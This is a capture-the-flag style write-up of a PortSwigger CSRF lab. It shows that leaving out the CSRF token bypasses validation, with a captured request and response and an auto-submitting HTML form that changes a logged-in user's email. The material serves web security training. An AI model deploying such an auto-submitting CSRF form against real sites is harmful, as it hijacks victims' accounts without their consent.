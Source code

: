 [PortSwigger Lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

---
If I don't send the csrf token, it will bypass the token validation

**Request**
```http
POST /my-account/change-email HTTP/2
Host: 0a86008803987ca5808412c1009a003e.web-security-academy.net
Cookie: session=l9yP9g7mvtyvjhhwSKQDuVF7lzkTwWlE
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

email=wiener%40sanormal-user.net
```

**Response**
```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

It worked, so here is the form to send

**Form**
```html
<form method="POST" action="https://0a86008803987ca5808412c1009a003e.web-security-academy.net/my-account/change-email">
   <input type="hidden" name="email" value="kiss@love.you">
</form>
<script>
   document.forms[0].submit()
</script>
```
